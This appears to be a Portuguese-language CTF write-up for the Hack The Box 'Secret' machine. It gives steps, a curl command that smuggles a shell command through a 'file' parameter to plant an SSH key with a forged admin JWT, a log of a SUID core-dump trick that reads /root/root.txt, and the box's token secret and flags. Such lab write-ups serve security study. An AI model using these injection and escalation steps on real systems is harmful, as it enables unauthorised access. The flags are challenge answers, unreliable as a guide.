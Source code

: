#  Secret

1. Criar usuario via API /api/user/register
2. Obter o JWT /api/user/login
3. Baixar *source code* e encontrar falhas de *command injection* no /api/logs
4. Encontrar TOKEN_SECRET que cria o JWT
5. Criar JWT com usuario *theadmin*
6. Adicionar chave ssh em authorized_keys do user
7. Encontrar falha no código do arquivo com *SUID* de *core dump* e explorar
9. Obter chave ssh

* [JWT Cracker](https://github.com/lmammino/jwt-cracker)
* [JWT.io](https://jwt.io)
* [drt.sh htb-secret](https://drt.sh/posts/htb-secret/)

````c
//code that allows core dumps
prctl(PR_SET_DUMPABLE, 1)
````

````shell
# Add ssh-key in authorized_keys
curl -i \
--get \
-H 'Host: 10.10.11.120:3000' \
-H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5MDAwNTY2YTdlNTA0NjhhNGFlNGIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQxNzM2NTYzfQ._9whmuv0q2nCEld42Mf3NlvGBXBYpuKPnr9_5MY2TXY' \
--data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" 'http://10.10.11.120:3000/api/logs'
````

````shell
#Explore SUID elf with core dump
./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
ps
    PID TTY          TIME CMD
   2213 pts/4    00:00:00 bash
   2373 pts/4    00:00:00 count
   2374 pts/4    00:00:00 ps

kill -SIGSEGV 2373 #or kill -BUS pid
fg
./count
Bus error (core dumped)

$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash-report
$ strings /tmp/crash-report/CoreDump
````

## Secrets:
* TOKEN_SECRET = ~~gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
* JWT_HEADER = ~~{ "alg": "HS256","typ": "JWT"} JWT_PAYLOAD: { "_id": "61d9000566a7e50468a4ae4b","name": "theadmin","email": "root@dasith.works","iat": 1641736563 }
* FLAG_USER = ~~fbbbc22182e757fe6d1a2668fba16fec
* FLAG_ROOT = ~~2d8736c5551138592e8cd56a3b4e219e
